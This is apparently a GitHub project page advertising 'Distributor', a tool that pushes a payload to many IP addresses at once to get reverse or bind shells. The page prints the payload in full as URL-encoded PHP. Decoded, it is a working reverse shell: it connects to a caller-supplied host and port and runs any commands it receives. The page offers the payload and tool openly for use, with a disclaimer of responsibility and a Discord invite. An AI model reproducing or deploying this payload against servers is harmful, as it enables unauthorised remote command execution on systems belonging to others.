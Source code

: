 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create a response with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`
Note: You can use your own Payload if you want to!

Before u look for other Tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in development. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best Payloaders ever!
3. You can help us develope and more.

For more details dm me : 0xyz
```

### Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

![d](https://user-images.githubusercontent.com/89786570/181810901-a0845351-ce9a-42fc-9d09-e779ddfa2129.gif)

![2022-07-23-17-18-58 (1)](https://user-images.githubusercontent.com/89786570/180613955-a4c75eb0-4585-4cfd-b283-750d479dcff0.gif)

![27AAB0C2-23B9-4270-B191-0E3046D8D29F](https://user-images.githubusercontent.com/89786570/180662753-0a7d1bbe-2ab9-408f-b70d-3452d31589ce.gif)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)
